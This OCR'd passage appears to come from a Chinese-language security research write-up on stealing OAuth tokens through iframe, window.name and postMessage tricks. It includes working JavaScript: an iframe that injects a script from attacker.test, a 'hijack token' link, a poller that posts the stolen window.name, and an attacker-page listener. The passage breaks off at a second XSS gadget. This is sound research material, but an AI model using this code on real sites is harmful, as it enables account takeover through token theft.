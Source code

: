 ```
<div id="leak"><iframe src="https://examplesandbox.com/embed_iframe?src=javascript:
x=createElement('script'),
x.src='//attacker.test/inject.js',
document.body.appendChild(x);" 
style="border:0;width:500px;height:500px"></iframe></div>

```

在加载到沙盒的我的脚本中，我用受害者使用的链接替换了内容:

```
document.body.innerHTML = 
'<a href=" " onclick="
b=window.open("https://accounts.google.com/o/oauth2/auth/oauthchooseaccount?...");">
Click here to hijack token</a >';

```

我写了一个脚本,周期性检查这个链接是否打开了,我想达到的iframe是有获得window.name设置的与iframe同源的在攻击者的页面上的iframe:


```
 x = setInterval(function() {
if(parent.window.b &&
 parent.window.b.frames[0] &&
 parent.window.b.frames[0].window &&
 parent.window.b.frames[0].window.name) {
   top.postMessage(parent.window.b.frames[0].window.name, '*');
   parent.window.b.close();
   clearInterval(x);
}
}, 500);
```

然后攻击者页面就可以只听我们用window.name发送的消息:


```
<script>
window.addEventListener('message', function (e) {
 if (e.data) {
     document.getElementById('leak').innerText = 'We stole the token: ' + e.data;
 }
});
</script>

```

### Gadget 2:  示例2  带有XSS的iframe +父源检查

第二个例子是用postMessage加载了带有xss的不愉快路径的iframe;但是messages只允许来自它的父窗口的位置加载它，当iframe向父窗口请求initConfig时，location.href被发送到iframe。
主窗口像这样加载iframe:

`<iframe src="https://challenge-iframe.example.com/"></iframe>`

